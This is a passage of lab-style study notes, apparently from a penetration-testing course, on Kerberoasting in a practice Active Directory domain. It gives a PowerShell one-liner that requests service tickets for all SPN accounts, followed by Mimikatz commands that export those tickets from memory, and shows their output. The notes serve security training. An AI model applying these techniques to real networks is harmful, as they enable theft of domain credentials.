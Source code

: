 

# output 
You get awrapper with these details:
```
Id                   : uuid-d9e5ffc2-2b2f-4c20-8442-b5a61beecf9a-1
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 11/29/2024 12:56:28 PM
ValidTo              : 11/29/2024 10:55:06 PM
ServicePrincipalName : vmware/inlanefreight.local
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```
and your TGS ticket, stored in memory.

#### Retrieving All Tickets Using setspn.exe

```powershell-session
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-3
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : exchangeAB/ACADEMY-EA-DC01
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-4
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/24/2022 11:58:18 PM
ServicePrincipalName : kadmin/changepw
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

<SNIP>
```
The above command combines the previous command with `setspn.exe` to request tickets for all accounts with SPNs set.

## Extracting the TGS ticket from memory

Now that the tickets are loaded, we can use `Mimikatz` to extract the ticket(s) from `memory`.

```
.\mimikatz.exe
MMK# base64 /out:true
kerberos::list /export

```

```powershell

PS C:\Tools\mimikatz\x64> .\mimikatz.exe




mimikatz # kerberos::list /export  <------ INPUT THIS [+]

   * Saved to file     : 0-40e10000-htb-student@krbtgt~INLANEFREIGHT.LOCAL-INLANEFREIGHT.LOCAL.kirbi
```
